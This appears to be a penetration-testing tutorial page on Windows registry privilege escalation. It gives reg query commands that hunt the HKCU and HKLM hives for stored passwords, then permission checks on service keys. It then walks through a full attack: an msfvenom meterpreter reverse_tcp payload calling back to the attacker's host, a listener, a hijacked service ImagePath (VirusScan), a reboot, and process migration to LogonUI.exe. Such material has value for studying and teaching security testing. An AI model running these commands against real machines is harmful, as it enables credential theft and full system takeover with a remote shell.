### What is the Windows Registry?
The Windows registry is a ***database*** where applications and system components store and retrieve configuration information. The database is ***hierarchical***, and the stored information is critical to the Windows operation, applications, and services running on the system.

### Privilege Escalation in the Registry
#### Plain-Text Passwords
***HKCU*** hive stores data associated with the current user account.
```
# Searching Password
reg query HKCU /f password /t REG_SZ /s

# Searching Username
reg query HKCU /f username /t REG_SZ /s
```
- `/f:` specify the keyword searched
- `/t:` type of registry key data to search
- `/s:` search should be performed recursively, including all subkeys and values

***HKLM*** hive  stores ***system-wide information***.
```
reg query HKLM /f password /t REG_SZ /s
```

You can even start from specific keys inside each hive by giving the full path:
```
reg query HKEY_CURRENT_USER\System\CurrentControlSet /f password /t REG_SZ /s
```

#### Weak Registry Key Permissions
Windows configuration details are also defined in the registry, so if a low-privileged user has permission to modify important configuration keys, it can be a vector for privilege escalation.

**Check Service Registry Key Permissions - AccessChk**
```
accesschk.exe /accepteula "USERNAME" -kvuqsw HKLM\System\CurrentControlSet\Services
```
- `KEY_ALL_ACCESS:` means you have ***full access*** to this service's registry key, including creating subkeys, removing the key, and modifying it.


**Check Service Registry Key Permissions - PowerShell**
```
Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\*" | Format-List * | Out-String | Set-Content -Path $HOME\Desktop\output.txt
```
- Look for permissions such as `FullControl`, `Modify`, or `Write` in the `AccessToString` field. With these permissions, you can either add new values to the registry key or modify existing ones in the key.

#### Confirming the Vulnerability
You need to confirm some other important details before attempting privilege escalation.
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\$serviceName
```
- `ImagePath:` is the executable binary that the service calls to run.
- `ObjectName:` is the ***user account*** that the service is launched as, so ensure an ***administrator-level account is launching the service***.
- `Start:` tells you how the service started. If set to `AutoStart` - represented by `0x2` and your user account doesn't have permission to restart the service, you can restart the host.

### Exploitation
**Generate Payload**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$kaliIPAddress LPORT=4444 -f exe -o reverse.exe
```

`Transfer the payload to the Windows Target.`

**Launch a Listener**
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost $kaliIPAddress; set lport 4444; exploit"
```

**Exploit**
Open `regedit`

Open following key
```
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

Look for the `registry key` for ***VirusScan***.
Click the `ImagePath` and update it with your executable.
Click OK.
Restart the host.

You will receive a `callback`, however; it will die shortly so we need to migrate to a different process.

#### Migrate process
```bash
migrate -N LogonUI.exe
```